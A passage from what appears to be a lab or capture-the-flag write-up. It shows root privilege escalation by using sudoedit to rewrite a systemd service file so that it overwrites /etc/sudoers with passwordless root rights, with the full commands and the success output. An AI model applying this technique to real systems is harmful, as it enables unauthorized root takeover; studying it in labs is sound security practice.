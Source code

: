We have two options here. The first one is to create a bash reverse shell in a file and then change the config to run that reverse shell on the reboot and since it is being run by sudo, we'll receive a root shell.

The second one which is what I'm gonna do, is to change the config file for sudoers (`/etc/sudoers`) and give user `server-admin` full sudo permissions. This one is more technical and more efficient, so here we go.

First we should use `sudoedit` to edit the config file for the service (`/etc/systemd/system/duckyinc.service`):

~~~
server-admin@duckyinc:~$ sudoedit /etc/systemd/system/duckyinc.service
~~~

Then we change the "ExecStart" which specifies the commands running after a reboot or boot, to change `/etc/sudoers`. We are going to change the "ExecStart" to the following:

~~~
ExecStart=/bin/bash -c 'echo "server-admin ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
~~~

We also need to change "User" and "Group" to `root`, so all the commands would run by root. Now save the changes and the file should look like this:

~~~
server-admin@duckyinc:~$ cat /etc/systemd/system/duckyinc.service
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/sh -c 'echo "server-admin ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
~~~

Now that we have modified the config file, we should reload systemd manager configuration. Then we restart duckyinc.service:

~~~
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service
~~~

Now let's check our sudo permissions using `sudo -l` to see if our exploit worked or not:

~~~
server-admin@duckyinc:~$ sudo -l
User server-admin may run the following commands on duckyinc:
    (root) NOPASSWD: ALL
~~~
